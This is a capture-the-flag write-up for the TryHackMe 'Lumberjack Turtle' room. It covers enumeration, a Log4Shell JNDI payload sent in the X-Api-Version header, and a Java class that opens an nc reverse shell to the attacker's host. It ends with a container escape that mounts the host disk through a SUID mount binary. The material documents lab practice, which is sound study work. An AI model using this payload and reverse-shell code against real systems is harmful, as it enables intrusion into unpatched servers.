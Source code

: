 [Home](../../index.md)

# TryHackMe: Lumberjack Turtle

https://tryhackme.com/room/lumberjackturtle

---
## Enumeration

Port scans

```
┌──(kali㉿kali)-[~/tryhackme/lumberjackturtle]
└─$ rustscan -a 10.10.95.20 -r 1-65535                                
Open 10.10.95.20:22
Open 10.10.95.20:80

┌──(kali㉿kali)-[~/tryhackme/lumberjackturtle]
└─$ nmap -p 22,80 -sV -sC 10.10.95.20             

PORT   STATE SERVICE     VERSION
22/tcp open  ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 6a:a1:2d:13:6c:8f:3a:2d:e3:ed:84:f4:c7:bf:20:32 (RSA)
|   256 1d:ac:5b:d6:7c:0c:7b:5b:d4:fe:e8:fc:a1:6a:df:7a (ECDSA)
|_  256 13:ee:51:78:41:7e:3f:54:3b:9a:24:9b:06:e2:d5:14 (ED25519)
80/tcp open  nagios-nsca Nagios NSCA
|_http-title: Site doesn't have a title (text/plain;charset=UTF-8).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

---
## HTML

```
┌──(kali㉿kali)-[~/tryhackme/lumberjackturtle]
└─$ sudo feroxbuster -u http://10.10.95.20 -w /usr/share/wordlists/dirb/common.txt -x txt,php
[sudo] password for kali: 

200        1l        6w       29c http://10.10.95.20/~logs
500        1l        1w        0c http://10.10.95.20/error
```

Browsing to `/~logs` reveals this message:

```
No logs, no crime. Go deeper.
```

So let's go deeper.

```
┌──(kali㉿kali)-[~/tryhackme/lumberjackturtle]
└─$ sudo feroxbuster -u http://10.10.95.20/~logs -w /usr/share/wordlists/dirb/common.txt -x txt,php

200        1l        8w       47c http://10.10.95.20/~logs/log4j
```

Browsing to `/~logs/log4j`

```
Hello, vulnerable world! What could we do HERE?
```

If we capture this request in BurpSuite, we see this in the response headers.

```
X-THM-HINT: CVE-2021-44228 against X-Api-Version
```

---
## Log4Shell

So we know this is vulnerable to log4shell via the `X-Api-Version` HTTP header.

I attempted here to use Metasploit to gain access.  It said I got a shell as root, but I could not see anything in `/home` or `/root`, I assume there's something I was missing or did not understand.  Eventually I decided to do this manually, we'll learn more this way anyway.

I will use the methodology outlined by John Hammond on his [Solar room](https://tryhackme.com/room/solar).

In our first terminal:

```
┌──(kali㉿kali)-[~/tryhackme/lumberjackturtle]
└─$ git clone https://github.com/mbechler/marshalsec   
                                                                                   
┌──(kali㉿kali)-[~/tryhackme/lumberjackturtle]
└─$ cd marshalsec            
                                                                                              
┌──(kali㉿kali)-[~/tryhackme/lumberjackturtle/marshalsec]
└─$ sudo apt install maven

┌──(kali㉿kali)-[~/tryhackme/lumberjackturtle/marshalsec]
└─$ mvn clean package -DskipTests

┌──(kali㉿kali)-[~/tryhackme/lumberjackturtle/marshalsec]
└─$ java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://10.13.18.7:8000/#Exploit"
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
Listening on 0.0.0.0:1389
```

Second terminal:

```
┌──(kali㉿kali)-[~/tryhackme/lumberjackturtle]
└─$ vim Exploit.java  
                                                                                       
┌──(kali㉿kali)-[~/tryhackme/lumberjackturtle]
└─$ cat Exploit.java         
public class Exploit {
    static {
        try {
            java.lang.Runtime.getRuntime().exec("nc 10.13.18.7 9999 -e /bin/sh");
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}


┌──(kali㉿kali)-[~/tryhackme/lumberjackturtle]
└─$ sudo apt install default-jdk

┌──(kali㉿kali)-[~/tryhackme/lumberjackturtle]
└─$ javac Exploit.java -source 8 -target 8
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
warning: [options] bootstrap class path not set in conjunction with -source 8
1 warning
```

Now in two separate terminals, we need to start an HTTP server (to host our newly created .class file), and a netcat listener (to catch the shell).

```
┌──(kali㉿kali)-[~/tryhackme/lumberjackturtle]
└─$ python3 -m http.server
```

```
┌──(kali㉿kali)-[~/tryhackme/lumberjackturtle]
└─$ nc -lvnp 9999                          
listening on [any] 9999 ...
```

Now all we need to do is send the payload to the vulnerable webpage in the vulnerable `X-Api-Version` header.

```
GET /~logs/log4j HTTP/1.1
Host: 10.10.95.20
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
X-Api-Version: ${jndi:ldap://10.13.18.7:1389/Exploit}
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
```

---
## Flag 1

This gets us a very limited shell.  I wasn't even able to upgrade it.

Using `find` I was easily able to get the first flag.

```
find / -iname "*flag*" 

...

/opt/.flag1
```

---
## Privilege Escalation

When listing `/`, we can see that we are in a docker container.

```
ls -a /
.
..
.dockerenv

....etc...
```

Looking at SUID files, we see that we can `mount` and `umount`.

```
find / -type f -perm -u=s 2>/dev/null | xargs ls -l
-rwsr-xr-x    1 root     root         38848 May  1  2018 /bin/mount
-rwsr-xr-x    1 root     root         26552 May  1  2018 /bin/umount
```

Let's try to break out of our container by mounting the filesystem of the parent machine.

```
mkdir /mnt/tmp
mount /dev/xvda1 /mnt/tmp
ls /mnt/tmp
bin
boot
dev
etc
home
initrd.img
initrd.img.old
lib
lib64
lost+found
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
vmlinuz
vmlinuz.old
```

---
## Flag 2

Now let's search that directory using `-iname`.

```
find /mnt/tmp -iname "*flag*" 
/mnt/tmp/root/.../._fLaG2
```
